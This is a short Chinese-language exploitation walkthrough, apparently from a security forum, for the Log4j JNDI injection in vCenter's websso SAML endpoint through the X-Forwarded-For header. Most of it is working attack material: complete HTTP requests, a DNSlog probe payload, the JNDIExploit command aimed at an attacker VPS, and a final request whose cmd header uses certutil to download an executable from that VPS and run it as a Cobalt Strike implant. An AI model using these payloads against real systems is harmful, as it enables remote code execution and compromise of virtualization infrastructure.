 利用log4j漏洞，漏洞触发点为XFF头部

```php
GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1
Host: 192.168.121.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Dnt: 1
X-Forwarded-For: ${jndi:ldap://9qphlt.dnslog.cn}
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

DNSlog探测漏洞是否存在

```php
X-Forwarded-For: ${jndi:ldap://9qphlt.dnslog.cn}
```

![image-20220902150833322.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-a9cec220ce57579231dd1299a825d5f910847abd.png)

使用 JNDIExploit 工具，`-u` 查看可执行命令

![image-20220902152302899.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-c5109ee11cd47a1f42546136e8c1073ba3314609.png)

漏洞利用：

```php
java -jar JNDIExploit-1.3-SNAPSHOT.jar -i VPSIP
X-Forwarded-For: ${jndi:ldap://VPSIP:1389/TomcatBypass/TomcatEcho}
cmd:
```

![image-20220902152705873.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-de44a89636b00e57bfc361f51b20cf3bc6a24306.png)  
![image-20220902151954111.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-b16b8fc8ce5bf2d90afee85dd77d709602f82054.png)

cs上线

```php
GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1
Host: 192.168.121.142
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Dnt: 1
cmd: certutil -urlcache -split -f http://VPS C:\Users\Public\1.exe &amp;&amp; C:\Users\Public\1.exe
X-Forwarded-For: ${jndi:ldap://VPS:1389/TomcatBypass/TomcatEcho}
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
